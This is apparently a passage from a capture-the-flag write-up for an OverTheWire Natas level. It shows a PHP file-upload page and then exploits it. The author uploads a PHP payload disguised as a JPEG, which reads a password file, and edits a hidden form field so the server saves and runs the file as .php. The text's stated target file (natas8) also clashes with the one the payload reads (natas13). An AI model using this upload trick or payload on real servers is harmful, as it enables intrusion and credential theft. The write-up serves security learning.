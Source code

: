 ~~~~
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
~~~~

So it wants a .JPG, does it? Let's give it one... but not one with image data. I'm thinking some malicious PHP would be a great payload for this script.

For our payload, since we want to read `/etc/natas_webpass/natas8`, let's go with `<?php echo file_get_contents("/etc/natas_webpass/natas13");` and save it as "totally_not_a_trojan.jpg".

Now, before we upload this, we need to change the `<input>` tag slightly. As it is, it will create a .JPG file on the server... but we want to change that extension to .php so we can have the web server run the code we uploaded. So...

`<input type="hidden" name="filename" value="36xisyea6a.jpg" />`

becomes...

`<input type="hidden" name="filename" value="36xisyea6a.php" />`

Let's give 'er a whirl. Up goes "totally_not_a_trojan.jpg" and down comes:

___

<div id="content">
The file <a href="upload/69bgptyktf.php">upload/69bgptyktf.php</a> has been uploaded<div id="viewsource"><a href="index-source.html" style="float:right;">View sourcecode</a></div>
</div>

___

Cool, it even comes with a link we can click! How thoughtful of them...

Let's click it, we should get the password.

`[censored]`
